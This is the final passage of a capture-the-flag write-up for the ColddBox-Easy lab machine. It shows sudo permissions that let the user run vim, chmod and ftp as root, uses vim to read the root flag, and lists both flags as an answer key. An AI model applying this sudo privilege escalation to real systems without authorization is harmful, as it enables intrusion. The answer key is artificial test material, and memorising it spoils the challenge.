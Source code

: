 ```
Matching Defaults entries for c0ldd on ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User c0ldd may run the following commands on ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

Since vim can be run as root, I executed:

```bash
sudo vim /root/root.txt
```

Root flag:

```
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```

---

## Flags

> Q1: User flag
> A1: RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

> Q2: Root flag
> A2: wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
